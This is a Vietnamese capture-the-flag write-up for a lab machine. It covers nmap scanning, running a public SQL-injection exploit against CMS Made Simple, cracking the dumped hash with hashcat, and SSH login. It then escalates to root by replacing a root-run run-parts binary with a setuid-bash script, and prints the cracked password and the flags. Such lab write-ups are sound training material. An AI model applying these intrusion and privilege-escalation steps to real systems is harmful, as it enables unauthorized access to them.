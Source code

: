 - Ip: 10.10.10.138
- Scan xem có gì: nmap -T4 -sV 10.10.10.138
![Image 1](image/image1.png)

- nmap -T4 -sC  10.10.10.138

![Image 2](image/image2.png)

- Có cổng 20 và cổng 80 mở 
![Image 3](image/image3.png)

- Truy cập vào website, đọc thì thấy web được bảo vệ bởi công nghệ chống dos, không dùng dirsearch được. 
- Scan cổng 80: thử truy cập http://10.10.10.138/writeup.
![Image 4](image/image4.png)
- Có nội dung trong đấy 
- Inspect ra xem 
![Image 5](image/image5.png)
```
<meta name="Generator" content="CMS Made Simple - Copyright (C) 2004-2019. All rights reserved." />
```
- Phiên bản CMS made simple 2019 search xem có lỗ hổng nào không: CVE:2019-9053
<a href="https://www.exploit-db.com/exploits/46635">Exploit  CVE-2019-9053</a>
- Sau khi tải xuống 46635 
- Chạy lệnh: python2 46635 -u http://10.10.10.138/writeup/  Để khai thác 

![Image 6](image/image7.png)
```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr5u
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
- Có vẻ không crack được dùng hashcat vậy.
```
echo "62def4866937f08cc13bab43bb14e6f7:5a599ef579066807" > hash 
hashcat -a 0 -m 20 hash /usr/share/wordlists/rockyou.txt
(20 | md5($salt.$pass)          Raw Hash salted and/or iterated)
```
![Image 7](image/image8.png)

- pass: 62def4866937f08cc13bab43bb14e6f7:5a599ef579066807:raykayjay9
- sau khi crack được: kết nối ssh với username: jkr pass:  raykayjay9
- Ra được flag user 
![Image 8](image/image9.png)
- flag user: 68a7de4f87fb76791e79057ccf57176b
- sau khi lấy được flag user, tiến hành nâng quyền root
![Image 9](image/image10.png)
- jkr thuộc nhóm người dùng staff, nhóm này có quyền thêm sửa usr/local/ mà không cần quyền root.
<a href="https://wiki.debian.org/SystemGroups">System Groups</a>
- Tiến hành bắt tiến trình xem có gì thuộc usr/local đang chạy không. 
<a href="https://github.com/DominicBreuker/pspy">pspy</a>
- dùng lệnh scp pspy32 jkr@10.10.10.138:/tmp để tải file pspy lên 
![Image 10](image/image11.png)
- Vào tmp cấp quyền thực thi rồi chạy ./pspy32.
![Image 11](image/image12.png)
- tiến hành đăng nhập ssh ở một terminal khác.
```
2024/08/05 05:12:01 CMD: UID=0    PID=2811   | sshd: [accepted]  
2024/08/05 05:12:16 CMD: UID=0    PID=2812   | sshd: jkr [priv]  
2024/08/05 05:12:16 CMD: UID=0    PID=2813   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new 
2024/08/05 05:12:16 CMD: UID=0    PID=2814   | run-parts --lsbsysinit /etc/update-motd.d 
2024/08/05 05:12:16 CMD: UID=0    PID=2815   | /bin/sh /etc/update-motd.d/10-uname 
2024/08/05 05:12:16 CMD: UID=0    PID=2816   | sshd: jkr [priv]  
2024/08/05 05:12:17 CMD: UID=1000 PID=2817   | sshd: jkr@pts/1   

```
- Để ý thấy có run-part đang chạy. Mà thuộc /usr/local mà saff có quyền chỉnh sửa. Sửả nó :))) 
- Jkr thuộc nhóm staff mà staff có quyền chỉnh sửa usr/local. Đường dẫn của run-parts là usr/local/bin/run-parts.
- Ta sử dụng shellbash để mở kết nối từ máy victim đến máy attack.
- cd usr/local/bin/run-parts
- nano run-parts
    #!/bin/bash
    
    chmod u+s /bin/bash
- Cấp quyền /bin/bash cho  u: owner, s = setuid
- Lưu lại và cấp quyền thực thi cho run-parts
    ![Image 12](image/image14.png)
- Trên máy tấn công: đăng nhập ssh 1 lần nữa
    ![Image 13](image/image15.png)
- Xem quyền /bin/bash: có quyền s
- Sử dụng /bin/bash -p để vào shellbash giữ nguyên quyền ưu tiên
- Jkr đã thuộc nhóm root
- cd vào thư mục root để đọc root.txt
flag: 6cc08f85c8664c41b03fc746fced2fca

